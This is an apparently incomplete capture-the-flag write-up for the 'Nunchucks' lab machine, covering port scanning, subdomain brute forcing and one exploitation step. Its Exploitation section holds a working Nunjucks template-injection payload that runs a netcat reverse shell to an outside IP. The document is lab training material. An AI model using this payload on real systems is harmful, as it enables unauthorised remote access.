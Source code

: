 # Nunchunks Write-Up

Easy

Tags:
`NodeJS`
`Easy`
`External`
`Penetration Tester Level 1`
`SSTI Exploitation`
`Defense Mechanisms`
`SUID Exploitation`


## Intro

1. 

## Enumeration

### Port scanning

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
```

add domain to `/etc/hosts`

```
echo "10.10.11.122 nunchucks.htb" | sudo tee -a /etc/hosts
```

### Subdomain brute force

```
gobuster vhost -u https://nunchucks.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
```

```
Found: store.nunchucks.htb (Status: 200) [Size: 4029]
```

add subdomain to `/etc/hosts`

## Exploitation

```
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.12 4444 >/tmp/f')\")()}}
```

## Privilege Escalation

